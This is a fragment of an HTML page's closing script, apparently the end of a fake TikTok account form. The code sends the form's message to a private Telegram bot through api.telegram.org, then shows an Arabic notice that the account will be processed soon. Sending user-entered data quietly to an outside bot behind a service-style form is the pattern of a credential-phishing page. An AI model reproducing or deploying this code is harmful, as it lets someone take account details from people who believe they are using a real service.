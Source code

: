       const url = `https://api.telegram.org/bot${botToken}/sendMessage?chat_id=${chatId}&text=${encodeURIComponent(message)}`;

      fetch(url)
        .then(response => {
          if (response.ok) {
            document.getElementById("successMsg").innerText = "تم إرسال الطلب بنجاح! سيتم معالجة الحساب قريبًا.";
            document.getElementById("tiktokForm").reset();
          } else {
            alert("حدث خطأ أثناء إرسال الطلب.");
          }
        })
        .catch(error => {
          alert("فشل الاتصال بالخادم.");
          console.error(error);
        });
    });
  </script>

</body>
</html>

